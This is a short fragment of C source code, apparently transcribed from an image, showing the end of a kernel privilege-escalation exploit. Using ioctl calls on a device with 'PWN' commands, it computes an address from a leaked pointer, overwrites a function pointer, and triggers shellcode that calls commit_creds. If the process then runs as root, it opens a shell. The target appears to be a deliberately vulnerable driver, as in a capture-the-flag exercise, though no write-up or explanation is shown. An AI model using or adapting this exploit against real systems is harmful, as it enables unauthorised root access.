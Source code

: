 ```c
        err(1, "ioctl read failed");
    
    bpf_addr = (void *)function - BPF_OFFSET;
    function = bpf_addr;

    // overwrite function pointer
    r = ioctl(dev, CMD_PWN_WRITE, &function);
    if(r != 0) 
        err(1, "ioctl write failed");

    // execute shellcode
    ioctl(dev, CMD_PWN_EXEC, x64_SYS_IOCTL_2_COMMIT_CREDS);
    
    if(getuid() == 0 && getgid() == 0)
        system("/bin/sh");

    close(dev);
    return 0;
}
```